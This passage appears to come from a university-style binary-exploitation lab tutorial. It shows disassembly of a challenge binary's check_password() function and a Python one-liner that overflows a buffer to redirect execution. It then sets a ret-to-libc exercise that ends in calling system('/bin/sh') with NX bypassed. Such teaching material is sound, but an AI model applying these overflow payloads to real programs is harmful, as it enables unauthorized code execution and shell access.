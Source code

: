 Guess what?
It didn't work.
How about we try to jump to some existing code?
First, let's take a look at the `check_password()` function.

```console
$ objdump -M intel -d auth | grep -A 15 "<check_password>:"
080485ec <check_password>:
 80485ec:	55                   	push   ebp
 80485ed:	89 e5                	mov    ebp,esp
 80485ef:	81 ec 58 05 00 00    	sub    esp,0x558
 80485f5:	c7 04 24 14 00 00 00 	mov    DWORD PTR [esp],0x14
 80485fc:	e8 9f fe ff ff       	call   80484a0 <malloc@plt>
 8048601:	a3 38 a0 04 08       	mov    ds:0x804a038,eax
 8048606:	a1 38 a0 04 08       	mov    eax,ds:0x804a038
 804860b:	85 c0                	test   eax,eax
 804860d:	75 18                	jne    8048627 <check_password+0x3b>
 804860f:	c7 04 24 76 87 04 08 	mov    DWORD PTR [esp],0x8048776
 8048616:	e8 95 fe ff ff       	call   80484b0 <puts@plt>
 804861b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048622:	e8 99 fe ff ff       	call   80484c0 <exit@plt>
 8048627:	8d 85 bb fa ff ff    	lea    eax,[ebp-0x545]
 804862d:	89 04 24             	mov    DWORD PTR [esp],eax
```

Lets try `0x804860f` such that we print the `malloc` failure message.

```console
$ python2.7 -c 'print "A" * 1353 + "\x0f\x86\x04\x08"' | ltrace -i -e puts ./auth
[0x80485df] puts("Enter password: "Enter password:
)                                                              = 17
[0x804861b] puts("malloc failed"malloc failed
)                                                                 = 14
[0xffffffff] +++ exited (status 1) +++
```

### 02. Challenge - `ret-to-libc`

So far, so good!
Now let's get serious and do something useful with this.

Continue working in the `01-tutorial-ret-to-libc/` folder in the activities archive.

The final goal of this task is to bypass the NX stack protection and call `system("/bin/sh")`.
We will start with a simple `ret-to-plt`:

1. Display all libc functions linked with the auth binary.
1. Return to `puts()`.
   Use ltrace to show that the call is actually being made.
1. Find the offset of the `"malloc failed"` static string in the binary.
1. Make the binary print `"failed"` the second time `puts()` is called.
1. **(bonus)** The process should SEGFAULT after printing `Enter password:` again.
   Make it exit cleanly (the exit code does not matter, just no `SIGSEGV`).
   You can move on to the next task without solving this problem.
1. Remember how we had ASLR disabled?
   The other libc functions are in the memory, you just need to find their addresses.
   Find the offset of `system()` in libc.
   Find the offset of the `"/bin/sh"` string in libc.
1. Where is libc linked in the auth binary?
   Compute the final addresses and call `system("/bin/sh")` just like you did with `puts()`.
